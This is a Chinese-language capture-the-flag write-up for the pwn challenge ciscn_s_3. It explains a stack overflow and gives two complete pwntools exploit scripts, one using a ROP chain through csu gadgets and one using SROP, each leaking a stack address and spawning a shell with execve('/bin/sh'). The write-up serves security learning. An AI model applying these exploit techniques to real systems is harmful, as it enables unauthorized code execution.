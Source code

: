 ```yaml
---
title: ciscn_s_3
description: ciscn_s_3-writeup
date: 2021-07-11 15:07:56
categories:
 - PWN
tags:
---
```




# ciscn_s_3

## IDA伪代码分析

首先检查一下文件

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625988173359-54fa768e-6a1e-486f-81f2-18fee26cff5f.png)

拖入IDA，首先发现vuln函数

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625988362033-c49f4532-fac6-4a1e-a22f-fe2e8f944106.png)

直接看汇编

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625988390470-2448b982-f604-4990-9ffd-f9790537a8da.png)

前面rax为0，那么调用read的系统调用，向rsp+buf开始写入0x400大小的字符，buf只有0x10的大小，那么肯定有溢出，还要注意前面mov rbp,rsp之后就没有sub esp了；后面mov rax 1将rax设为1，那么调用write系统调用，从rsp+buf开始打印0x30大小的数据。

**32位对应的系统调用号**

| read      | 3    |
| --------- | ---- |
| write     | 4    |
| execve    | 11   |
| sigreturn | 77   |

**64位对应的系统调用号**

| read      | 0    |
| --------- | ---- |
| write     | 1    |
| execve    | 59   |
| sigreturn | 15   |

我们发现还有个gadgets函数

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625989059756-913bff45-fd92-4df0-9590-f96664d1d44b.png)

一个是mov rax, 0Fh，按上面的表格，就是将rax系统调用号设置为15，也就是sigreturn，那么就可以用srop去做这题，还有一个是mov rax, 3Bh，将rax设置为59，也就是execve，也可以用普通的rop去做。

## 第一种做法

程序一开始是先执行read(0,buf,0x400)，然后执行write(1,buf,0x30)，buf的位置距离rbp只有0x10，所以存在栈溢出，而且前面没有进行sub rsp抬高栈，所以rsp和rbp是相等的，retn相当于pop rip，所以这里覆盖rbp的时候，其实就需要将rbp覆盖成你想要的返回地址。所以这道题的偏移其实就是0x10就可以了。

### 思路

第一种做法就是**通过系统调用59对应的execve，然后想办法执行execve(“/bin/sh”,0,0)**

上面说到了可以进行栈溢出，执行execve就需要给寄存器赋值，那大概的布局就是这样的：

$rax==59

$rdi==“/bin/sh”

$rsi==0

$rdx==0

syscall

上面我们看到gadgets函数中有mov rax，3Bh，那么第一个条件可以达成，对于第二条件，通过查找程序也没发现有/bin/sh的字符，那么就要通过栈溢出将/bin/sh写入栈中，然后通过泄露栈的地址，加上偏移去得到/bin/sh的地址，然后通过ROPgadget查找pop rdi ret的gadget将/bin/sh的地址写入rdi，第三第四个条件可以利用csu去赋值。

那么，首先是泄露栈的地址

```python
payload1 = '/bin/sh\x00' * 2 + p64(main)
p.send(payload1)
p.recv(0x20)
binsh = u64(p.recv(8))  - 0x118
log.success(hex(binsh))
```

write是会打印出0x30大小的数据，这里在打印到0x20的时候，接下来是打印出来一个地址，这个地址一看就是栈上面的，所以只要算出这个地址和binsh地址的相对偏移，就可以在程序每次执行的时候算出binsh的地址了

这里是c88-b70==0x118

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625994021812-2735cb38-5591-4953-afbc-a84b39bc7ef6.png)

那么下一步就是利用csu给rsi，rbx赋值了，发现csu只能给edi赋值，但我们要给rdi赋值，所以我们还要找pop rdi的gadget



![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1625994407537-617fd298-9e40-47e0-8bfe-265d6c78cde8.png)

```python
payload2 = '/bin/sh\x00' * 2 + p64(csu_end)
payload2 += p64(0) * 2 + p64(binsh+0x50) + p64(0) * 3 + p64(csu_first) + p64(rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh) + p64(sys_call)
p.sendline(payload2)
```

这里的r12赋的值就是binsh的地址+0x50，也就是下一个rop的地址，也就是rax_59_ret的地址，给rax赋值为59，这里注意的是[r12]，是取地址操作，所以r12是栈上的地址，这个地址里保存着rax_59_ret的地址，这里是我踩的一个坑，那么之后的exp就没什么好分析的了，放一下最后的exp

### exp

```python
from pwn import *

# context.log_level = 'debug'

p = process('ciscn_s_3')
# p = remote('node4.buuoj.cn','29053')
elf = ELF('ciscn_s_3')

main = 0x0004004ED
sys_call = 0x400517
csu_end = 0x40059A
csu_first = 0x400580
rax_59_ret = 0x4004E2
pop_rdi_ret = 0x4005a3

payload1 = '/bin/sh\x00' * 2 + p64(main)
p.send(payload1)
p.recv(0x20)
binsh = u64(p.recv(8))  - 0x118
log.success(hex(binsh))

payload2 = '/bin/sh\x00' * 2 + p64(csu_end)
payload2 += p64(0) * 2 + p64(binsh+0x50) + p64(0) * 3 + p64(csu_first) + p64(rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh) + p64(sys_call)
p.sendline(payload2)

p.interactive()
```

## 第二种做法

用srop去做，首先介绍一下srop

### SROP

SROP（Sigreturn Oriented Programming），sigreturn是一个系统调用，在 unix 系统发生 signal 的时候会被间接调用



当系统进程发起（deliver）一个 signal 的时候，该进程会被短暂的挂起（suspend），进入内核①，然后内核对该进程保留相应的上下文，跳转到之前注册好的 signal handler 中处理 signal②，当 signal 返回后③，内核为进程恢复之前保留的上下文，恢复进程的执行④

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1583802593340-5e11543d-ba40-4484-90a1-7eff91e5f953.png)

内核为进程保留相应的上下文的方法主要是：**将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址**，此时栈的情况是这样的：

![img](https://gitee.com/gdmzyzl/picgo/raw/master/picbed/1583803907159-784f8139-65cf-4c41-8ce5-db66393f5cc1.png)

我们**称 ucontext 以及 siginfo 这一段为 signal frame**，需要注意的是这一部分是在用户进程的地址空间，之后会跳转到注册过 signal handler 中处理相应的 signal，因此，当 signal handler 执行完成后就会**执行 sigreturn 系统调用来恢复上下文，主要是将之前压入的寄存器的内容给还原回对应的寄存器**，然后恢复进程的执行。

### 思路

我们发现gadgets函数中有个mov rax，0Fh，这是Sigreturn系统调用号，Sigreturn 从栈上读取数据，赋值到寄存器中，可以用来构造 syscall(59,"/bin/sh",0,0)。那么我们可以通过构造一个fake signal frame，让程序调用了Sigreturn之后，恢复我们构造好的frame，给寄存器都赋值。这里需要用到SigreturnFrame()，我们用Python2去写EXP

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

# p = process('ciscn_s_3')
p = remote('node4.buuoj.cn','27856')
elf = ELF('ciscn_s_3')

main = 0x0004004ED
sys_call = 0x400517
csu_end = 0x40059A
csu_first = 0x400580
rax_15_ret = 0x4004DA
pop_rdi_ret = 0x4005a3

payload1 = '/bin/sh\x00' * 2 + p64(main)
p.send(payload1)
p.recv(0x20)
binsh = u64(p.recv(8))  - 0x118
log.success(hex(binsh))

fakeframe = SigreturnFrame()
fakeframe.rax = constants.SYS_execve
fakeframe.rdi = binsh
fakeframe.rsi = 0
fakeframe.rdx = 0
fakeframe.rip = sys_call

payload2 = '/bin/sh\x00' * 2 + p64(rax_15_ret) + p64(sys_call) + str(fakeframe)
p.send(payload2)
p.interactive()
```

这里记得fakeframe的rip设置sys_call，不然恢复了上下文后也不会调用execve